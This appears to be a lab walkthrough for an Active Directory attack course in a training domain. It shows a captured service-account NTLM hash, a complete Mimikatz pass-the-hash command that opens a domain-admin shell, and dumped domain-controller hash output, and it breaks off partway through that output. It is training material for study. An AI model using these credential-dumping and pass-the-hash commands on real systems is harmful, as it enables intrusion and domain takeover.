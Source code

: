 ```


```scvadmin : b38ff50264b74508085d82c69794a4d8```



# Learning Objective 8:
```Task
● Dump hashes on the domain controller of dollarcorp.moneycorp.local.
● Using the NTLM hash of krbtgt account, create a Golden ticket.
● Use the Golden ticket to (once again) get domain admin privileges from a machine.
```



 ## Dump hashes on the domain controller of dollarcorp.moneycorp.local.

用上面收集到svcadmin账号信息，开一个DA的shell



```Invoke-Mimikatz -Command '"sekurlsa::pth /user:svcadmin /domain:dollarcorp.moneycorp.local /ntlm:b38ff50264b74508085d82c69794a4d8 /run:powershell.exe"'```



可以看到我们现在已经可以横向到DC

![image-20220306203520614](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20220306203520614.png



![image-20220306203556004](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20220306203556004.png)



进入DC以后，bypass everything。dump出DC里的所有NTML信息

![image-20220306203808443](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20220306203808443.png)





已经拿到Administrator和krbtgt的用户信息

```

RID  : 000001f4 (500)
User : Administrator
LM   :
NTLM : af0686cc0ca8f04df42210c9ac980760
